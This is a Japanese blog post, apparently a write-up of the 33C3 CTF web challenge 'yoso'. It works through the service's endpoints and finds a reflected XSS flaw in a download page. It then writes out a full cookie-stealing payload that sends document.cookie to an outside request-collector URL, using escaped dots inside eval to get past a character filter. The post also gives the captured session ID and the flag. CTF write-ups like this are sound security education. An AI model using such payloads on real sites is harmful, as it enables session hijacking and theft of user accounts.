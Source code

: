 ```yaml
---
layout: post
alias: "/blog/2016/12/30/33c3-ctf-yoso/"
date: "2016-12-30T13:39:40+09:00"
tags: [ "ctf", "writeup", "web", "33c3-ctf", "javascript", "xss", "session-hijack", "csrf", "csrf-token" ]
---
```


# 33C3 CTF: yoso

深夜まで必死で粘ってなんとか倒した。達成感があった。

## problem

一括検索 + 検索履歴保存のサービス。そしてadminはflagについて検索するのが好きとのこと。

![](/blog/2016/12/30/33c3-ctf-yoso/1.png)
![](/blog/2016/12/30/33c3-ctf-yoso/2.png)

## solution

-   `/register.php`/`/login.php/`logout.php`: 何もなさそう
-   `/search.php`: 検索ができる
-   `/bookmark.php`: POSTすればzipが鯖上に生成される
-   `/download.php`: そのzipを削除しつつ取得
-   `/feedback.php`: linkを送ると鯖上で踏んでjsを実行してくれる

`/feedback.php`から`/bookmark.php`にPOSTして出きたzipを奪うのが思い付くが、`/bookmark.php`はCSRF tokenを持つのでだめ。
しかし`/download.php`にはXSSの脆弱性を持つので、これを踏ませてsession hijackにする。

最終的な攻撃linkはこれ: <http://78.46.224.80:1337/download.php?zip=%3Cscript%3Eeval%28%22location%5Cx2ehref%3D%5C%22http%3A%2F%2Frequestb%5Cx2ein%2F18o1k6g1%3F%5C%22%2Bdocument%5Cx2ecookie%3B%22%29%3C%2Fscript%3E>。

実行させたいjavascriptは以下。

``` javascript
location.href = "http://requestb.in/18o1k6g1?" + document.cookie;
```

しかし`/download.zip`では`..`を防ぐのと兼ねて`.`が消去される。なので文字列に持ちあげて`eval`する。
XSSは<http://78.46.224.80:1337/download.php?zip=%3Cmarquee%3EXSS%3C/marquee%3E>みたいに仕込める。

``` html
eval("location\x2ehref=\"http://requestb\x2ein/18o1k6g1?\"+document\x2ecookie;")
http://78.46.224.80:1337/download.php?zip=<script>eval("location\x2ehref=\"http://requestb\x2ein/18o1k6g1?\"+document\x2ecookie;")</script>
```


得られたのは`PHPSESSID=c5u3mgfndm4u241ji3ad9bajn1`。
結局CSRF tokenは破れず。

flag: `33C3_lol_wHo_needs_scr1pts_anyway`
